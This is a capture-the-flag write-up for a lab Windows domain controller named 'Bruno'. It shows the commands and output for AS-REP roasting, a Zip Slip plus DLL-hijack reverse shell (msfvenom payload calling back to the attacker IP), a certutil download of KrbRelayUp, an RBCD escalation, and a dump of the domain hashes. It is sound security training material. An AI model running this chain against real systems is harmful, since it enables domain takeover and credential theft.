



Let’s start with a classic Nmap scan

```bash
➜  VULNLAB nmap -p- --min-rate 1000 bruno.vl -oN port.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-16 10:32 +04
Nmap scan report for bruno.vl (10.10.76.205)
Host is up (0.089s latency).
Not shown: 65520 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
5985/tcp  open  wsman
49671/tcp open  unknown
49683/tcp open  unknown
53390/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 131.26 seconds
```

After a bit of enumeration, connecting to the FTP service with anonymous login reveals a username inside the `changelog` file.

```bash
➜  Bruno ftp bruno.vl
Connected to bruno.vl.
220 Microsoft FTP Service
Name (bruno.vl:user): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||61736|)
150 Opening ASCII mode data connection.
06-29-22  04:55PM       <DIR>          app
06-29-22  04:33PM       <DIR>          benign
06-29-22  01:41PM       <DIR>          malicious
06-29-22  04:33PM       <DIR>          queue
226 Transfer complete.
```

```bash
➜  Bruno cat changelog 
Version 0.3
- integrated with dev site
- automation using svc_scan

Version 0.2
- additional functionality 

Version 0.1
- initial support for EICAR string
```

We perform an AS-REP Roasting attack on this user and crack the password offline using Hashcat.

```bash
➜  Bruno netexec ldap bruno.vl -u svc_scan -p '' --asreproast asrep.txt
SMB         10.10.76.205    445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)
LDAP        10.10.76.205    445    BRUNODC          $krb5asrep$23$svc_scan@BRUNO.VL:497681c7e6cfd72c3cc0f5e4ffe21aa1$16dcc60ca1dfe03cd465a809cfe901b0b769a528c3486dfe64d961442200c92a668765537730aa04f8ff56351fbdcc47e0651XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX7649b53dfdb3b60041b091949e403bdac784421b92214c759b54f08ac63cdc80a83d94f3b25c78bdc3024883f6346c4a09055a3ecbb1553751c439f6cb440947807be434b32059640b32d5057648dda4a75c2a6e0bf1610a98bf307a5db0027d642ed5090966a8ab371b7262cf46b5426463c6861c40ad53ddd54079bd228460652ff047a7b1cb30
```

```bash
➜  Bruno hashcat -a 0 -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

<SNIP>

$krb5asrep$23$svc_scan@BRUNO.VL:497681c7e6cfd72c3cc0f5e4ffe21aa1$16dcc60ca1dfe03cd465a809cfe901b0b769a528c3486dfe64d961442200c92a668765537730aa04f8ff56351fbdcc47e0651XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX7649b53dfdb3b60041b091949e403bdac784421b92214c759b54f08ac63cdc80a83d94f3b25c78bdc3024883f6346c4a09055a3ecbb1553751c439f6cb440947807be434b32059640b32d5057648dda4a75c2a6e0bf1610a98bf307a5db0027d642ed5090966a8ab371b7262cf46b5426463c6861c40ad53ddd54079bd228460652ff047a7b1cb30:<REDACTED>
                                                          
Session..........: hashcat
Status...........: Cracked
<SNIP>

Started: Wed Apr 16 10:55:20 2025
Stopped: Wed Apr 16 10:55:23 2025
```

We also attempt a Kerberoasting attack using the `svc_scan` account, but this did not lead to any further progress.

```bash
➜  Bruno netexec ldap bruno.vl -u svc_scan -p '<REDACTED>' --kerberoast kerb.txt
SMB         10.10.76.205    445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)
LDAP        10.10.76.205    389    BRUNODC          [+] bruno.vl\svc_scan:<REDACTED> 
LDAP        10.10.76.205    389    BRUNODC          Bypassing disabled account krbtgt 
LDAP        10.10.76.205    389    BRUNODC          [*] Total of records returned 2
LDAP        10.10.76.205    389    BRUNODC          sAMAccountName: svc_net memberOf:  pwdLastSet: 2022-06-29 17:35:45.023707 lastLogon:2022-06-29 20:29:25.394301
LDAP        10.10.76.205    389    BRUNODC          $krb5tgs$23$*svc_net$BRUNO.VL$bruno.vl/svc_net*$a10a76a5aa139ce0b7f1146e1e90099c$3e5f15958310dc98618898d72030324dc1d6deed52497fa90d105ae443f4c077a207f9bdf31c81561c74b6ff70f1837faf3c4a3e9d261a2aeb98c98fc9a0394ff40eb46778cd273ed6d459647c66cf15742943395b17ac16dbcdd29f22856cbd66629a1a6bdb0dd2d559f1dc1518883fbf2cec2fd01f1ce1edcd59a7bd0f05dca94bf0d5d27748cf444717ebe436340d38a4ddf277432c6e899b4d179c4f0574de22aa8081332fc14dce6131b2a72a416c309d528efa98c8186c2b6cb6288e521693424e0eab9223557494f72a4f4c0dde9f095c5d5aea6c77829329c05ca182db226228a89667cd7e2cbe89968b2e3ece917ca4618313d61a326151098eef72190d666fd194682aefd0e972554a5b1acc15c648207bce7d8ad6a00c3ae0065227107faa5399ddb068bf09c207f9de2e8a6413e3156dc89bdbb585cea2e296a2a262f65c7f3e085a3193808dec94357bd26beed846ca87ba4a55a147fde5637c0205bffa10baff5642937bb08138b557a737fc0095a6d31712110017503610a4643a111f84dfca1e95ecd5bf97430b0c5d409fe5c95cf6c1d38ac0404cc1f9777c7d1dbaf222d4cf0f3fecb41e19783aa36a9a8404c2fbc8bee614084917f3c5ba868c89c762b619f5fc19c3c9f8e1de55d1cdc589e2707267021adb1810ae99603a76656f280abe293b0aa31edeb4c3f9d481e0486ae020088ef430be9530cf2b81ea3c13769015fb613ab2582f63d38c31d9743caef15eac45e425dc4be5f1f1a3f8e43faed5d80effb0c9f9cb44f9af1f6bf4eca027a09799eb2a5eb8de39fca136084a84XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX61b6b5744af4a0920cddb30d58d9eb543e04a99396caed50b392621fed4b1fad352cb0717f80a2e681e6349437652f6d18a5a8101b40d7fc4f39b7bd67891482ff18e72dfa16a8c1e974ed9f83eec5e97a81424d921c81649c9883c014f3bcf0ce2b2511bec7f64a8476f29f8e4412f15d27b01319b9992bac33e8a7af486ec072efe423a34ff38e5bd7dfc5b45bb0ff231d41021eea362ef57beeb2914f32babfcc364021fdb096ba8b3e75f1c3af94df913be55a395898b852181a1939e0b0d70cb2ec2559569ff8d550e7bd302914b9c8044773a562e55a20c0cd7e09b4609cd038660e9ede6ea428d36c9ab62e6ed3e4ba52b3362fe6aada24bbe280ca3dfad8b7013ffa90f5f8f529e5c167c0b06721cdbe852cacc994528edae3fed81de8feaf6b9f684eefd74e945f8b5a70849fc96dff37f77bbf5cea0d70de648d3b994f09f11237719aa8971e938eacf7ae760d53b255fd0fe8e8c9d30d6f09df69e20b54101d41ed95974bc17539cefdf0de78ea1201e9e016a825626592b57eed4b7
LDAP        10.10.76.205    389    BRUNODC          sAMAccountName: svc_scan memberOf:  pwdLastSet: 2022-06-29 17:36:15.210348 lastLogon:2025-04-16 10:56:45.892255
LDAP        10.10.76.205    389    BRUNODC          $krb5tgs$23$*svc_scan$BRUNO.VL$bruno.vl/svc_scan*$10259a65885703e9d93ab4cc5d574d8d$80094f7ed22e047d8b4b2fe9b5f589bcb77d23d36badb53ee152536bf48feb09066d3b653ac011c4f43694c2b996e299a60a6c9b4333022f9d300a0d874c342266f0a545cbdbe98218e37938785e055e5ae300ec4b0ea95552122e3d7de2db84d3d951d594a0f145b40f700b50730e2d7d89e77fb48d7d6fddfe780faa95853a9b5afb35355476a6f17661e0a6e2da5bc9b77bfa394f77028264c964e849f0f83a5372093b9c34a2ce4cb6753756fa6ab20a57770dcea80fea00689933f6d77f62c633be9645762a6ffb80ad081d59a22127c91f4c5a7954f7a49873305307a648bacb04bb6b582e4004d2171baf31af49be16b73cb63d7f5bd183b8c21d7791a3bd9f82135e12b6754d02e2c24f7b4141cad4cfffa6dad25ec5947f733c6a1822c9ccd2b3e00a3862f3b16118c934e6a3b21b0a6a32866ab51496c00b1afab802a880c9e57666375eada18554f815514d671756adeec97ac32f3fad37058268a4155dc1d640124958c57a5345ace74e9486cb9aea2a6bfcaf4ca47ebcbc0ebc54912cbdc9bc0ecfed16111332445db937b04d4765534ced5c6c4e46dbdf0ed72deab78c8064260293709d3931bc7463d16bd4cab5c19bc24a551f165a9d5365ec1e2ef0b8895ebccb467e7abe27b2edf21199a162dc2fcb5b2683cf8f1b6d2c9676a4d3fd89c867fca50b989c6b0951bea5XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX1dabddb84689491d7c731226c3adb90452c50d607620772c98073981bb4c60f17fecbcbf821504a1d6df5cbd3140ff42884bbe1441bfb6d5d686df269b2c1a2c68e4684af653838efe02f581f45fdbbd9968709fb95f06e4e4b5327975f1b320d998db64b19704e4115911f5c2f8b19ad21e51f34b1f6662ba9d0ea22e1c2d2b03af1a288576819f1cd013930fdc2db605f38d470a2b8b492b17f8665e0cd060e395fefe1e074df50a8d1c6ec69e022aa63f75620a4362eabb4cf01dfc87b43adb2f207f8af4a83e6c9a3a4919e90691179dc8cbf84c50b295c1a6a228f6e90996eaa6c42b3153bb982a716c41e25be8ac7d8f6f10c33da4fb5b301550d40c1b810e8bd0fc8a2ca0f1725391f179ddf42d1233c817e7f2fe2f2e6dbf4f6378574e13e4cf5eec826dab36b6276fb703cab5a8f8bbee9c1865e20533ee7944ad4c49094268822b223ffd8283ac0bb7f35e36dd3ee3113f0a200fef3220e912f7138dee56036d9c345fe57ea2d8193975bd967c621186fa2e1d7615a4cab5a44dd946da69f458b32842b2a8aec006e33b3e6defb690aa4afdd18e0f47642937a1d020a5e371416743b3e4c8da1d059f8dfc000098113536ab0a61bfa711acf0882dd88796337d1a8a672f4816e38e104695f62e1d78ab7
```

When checking the shares with the `svc_scan` user, we find that we have write access to the `app` folder.

```bash
➜  Bruno netexec smb bruno.vl -u svc_scan -p <REDACTED> --shares
SMB         10.10.107.132   445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)
SMB         10.10.107.132   445    BRUNODC          [+] bruno.vl\svc_scan:<REDACTED>
SMB         10.10.107.132   445    BRUNODC          [*] Enumerated shares
SMB         10.10.107.132   445    BRUNODC          Share           Permissions     Remark
SMB         10.10.107.132   445    BRUNODC          -----           -----------     ------
SMB         10.10.107.132   445    BRUNODC          ADMIN$                          Remote Admin
SMB         10.10.107.132   445    BRUNODC          C$                              Default share
SMB         10.10.107.132   445    BRUNODC          CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.107.132   445    BRUNODC          IPC$            READ            Remote IPC
SMB         10.10.107.132   445    BRUNODC          NETLOGON        READ            Logon server share 
SMB         10.10.107.132   445    BRUNODC          queue           READ,WRITE      
SMB         10.10.107.132   445    BRUNODC          SYSVOL          READ            Logon server share 

```

Let’s take note of this. When connecting via FTP, we find a file named `SampleScanner.exe`. To make analysis easier, we transfer it to a Windows machine.\
After transferring the files, we analyze `SampleScanner.exe` using dnSpy to get a basic understanding of its functionality.

<figure><figcaption></figcaption></figure>

When we read the code, we realize it actually performs a simple task. The code is written to check if a virus called EICAR is present. It checks under the queue directory, and if there’s a `.zip` file, it extracts it and searches for the EICAR pattern. If the file is malicious, it moves it to the `malicious` folder; if it’s benign, it moves it to the `benign` folder.

However, the vulnerability in the code is that it doesn’t implement any control mechanism when extracting files. I can easily use something like `../../../` to write a system file or overwrite something else, which can be extremely dangerous.

Now, let's take a look at what the executable does using _Procmon_.\
By using Procmon, if we set the filters to "Process Name contains SampleScanner.exe" and "Path ends with .dll," we can avoid some of the process complexity.

<figure><figcaption></figcaption></figure>

As we can see from here, it’s looking for `hostfxr.dll` under the `app` directory. We realize that we could potentially perform a DLL Hijacking attack.

Now, let’s combine our findings: I need to place the `.dll` file under the `app` directory, but I don’t have write permissions there.\
Hmm...\
However, even if I can’t write directly, I can exploit the Zipslip vulnerability to make SampleScanner write it for me.

How?\
First, let’s prepare our payload.

```bash
➜  Bruno msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.6.29 LPORT=4444 -f dll -o hostfxr.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: hostfxr.dll
```

After this, what I did was use 7zip to compress the `.dll` file. Then, I entered the archive and changed the file name to `..\app\hostfxr.dll`.

Our scanner likely runs at regular intervals, and when it does, it will extract the file and place `hostfxr.dll` under the `app` directory. This will allow us to get a reverse shell through this process.

Now, we use `smbclient` to connect to the `queue` share, place our zip file there, and set up a listener on port 4444.

```bash
➜  Bruno smbclient -U svc_scan \\\\bruno.vl\\queue
Password for [WORKGROUP\svc_scan]:
Try "help" to get a list of possible commands.
smb: \> put hostfxr.zip 
putting file hostfxr.zip as \hostfxr.zip (7.5 kb/s) (average 7.5 kb/s)
smb: \> 
```

```bash
➜  Bruno rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.6.29] from (UNKNOWN) [10.10.107.132] 49731
Microsoft Windows [Version 10.0.20348.768]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
bruno\svc_scan
```

Bingo!

After obtaining the shell, we perform basic enumeration. I used SharpHound to check permissions, groups, and users, but I couldn't find anything useful. Then, I ran WinPEAS, and the following caught my attention:

<figure><figcaption></figcaption></figure>

```zsh
➜  Bruno netexec ldap bruno.vl -u svc_scan -p <REDACTED> -M ldap-checker
SMB         10.10.107.132   445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)
LDAP        10.10.107.132   389    BRUNODC          [+] bruno.vl\svc_scan:<REDACTED> 
LDAP-CHE... 10.10.107.132   389    BRUNODC          LDAP Signing NOT Enforced!
LDAP-CHE... 10.10.107.132   389    BRUNODC          LDAPS Channel Binding is set to "NEVER"
```

```zsh
➜  Bruno netexec ldap bruno.vl -u svc_scan -p <REDACTED> -M maq         
SMB         10.10.107.132   445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)
LDAP        10.10.107.132   389    BRUNODC          [+] bruno.vl\svc_scan:<REDACTED> 
MAQ         10.10.107.132   389    BRUNODC          [*] Getting the MachineAccountQuota
MAQ         10.10.107.132   389    BRUNODC          MachineAccountQuota: 10
```

Of course, for this attack to work, LDAP signing must be disabled.

You can check the following link to read about the Kerberos Relay Up (krbrelayup) attack:\
[https://wwwgeneral.github.io/posts/from-unprivileged-user-to-system-krbrelayup/](https://wwwgeneral.github.io/posts/from-unprivileged-user-to-system-krbrelayup/)

It might also be useful to look at the attachments.

Now, let’s transfer the `krbrelayup.exe` file to the Windows machine.

```bash
➜  Bruno python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```powershell
c:\Users\Public>certutil -f -split -urlcache http://10.8.6.29/KrbRelayUp.exe KrbRelayUp.exe
certutil -f -split -urlcache http://10.8.6.29/KrbRelayUp.exe KrbRelayUp.exe
****  Online  ****
  000000  ...
  10f800
CertUtil: -URLCache command completed successfully.
```

```powershell
c:\Users\Public>.\KrbRelayUp.exe full -m rbcd -c -cls {d99e6e73-fc88-11d0-b498-00a0c90312f3}
.\KrbRelayUp.exe full -m rbcd -c -cls {d99e6e73-fc88-11d0-b498-00a0c90312f3}
KrbRelayUp - Relaying you to SYSTEM


[+] Rewriting function table
[+] Rewriting PEB
[+] Init COM server
[+] Computer account "KRBRELAYUP$" added with password "aX4/hG3-rS5-lS9#"
[+] Looking for available ports..
[+] Port 10246 available
[+] Register COM server
[+] Forcing SYSTEM authentication
[+] Got Krb Auth from NT/SYSTEM. Relying to LDAP now...
[+] LDAP session established
[+] RBCD rights added successfully
[+] TGT request successful!
[+] Building S4U2self 
[+] Using domain controller: brunodc.bruno.vl (fe80::350e:fc37:e286:a1d%6)
[+] Sending S4U2self request to fe80::350e:fc37:e286:a1d%6:88
[+] S4U2self success!
[+] Got a TGS for 'Administrator' to 'KRBRELAYUP$@BRUNO.VL'
[+] Impersonating user 'Administrator' to target SPN 'HOST/BRUNODC'
[+] Building S4U2proxy request for service: 'HOST/BRUNODC'
[+] Using domain controller: brunodc.bruno.vl (fe80::350e:fc37:e286:a1d%6)
[+] Sending S4U2proxy request to domain controller fe80::350e:fc37:e286:a1d%6:88
[+] S4U2proxy success!
[+] Importing ticket into a sacrificial process using CreateNetOnly
[+] Process         : 'c:\Users\Public\KrbRelayUp.exe krbscm --ServiceName "KrbSCM"' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1488
[+] Ticket successfully imported!
[+] LUID            : 0x62070f
[+] System service should be started in background
```

Now, this allows us to send a TGS request to the HOST service.

```bash
➜  Bruno impacket-getST -impersonate 'administrator' bruno.vl/'KRBRELAYUP$':'aX4/hG3-rS5-lS9#' -spn HOST/brunodc.bruno.vl -dc-ip 10.10.107.132
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
/usr/share/doc/python3-impacket/examples/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/share/doc/python3-impacket/examples/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@HOST_brunodc.bruno.vl@BRUNO.VL.ccache
➜  Bruno export KRB5CCNAME=administrator@HOST_brunodc.bruno.vl@BRUNO.VL.ccache 
```

Now, we can proceed to dump the hashes.

```bash
➜  Bruno impacket-secretsdump brunodc.bruno.vl -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf58ac639976f0c99c2dde0d24ef3219d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>
<SNIP>
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>
```

Thats it!
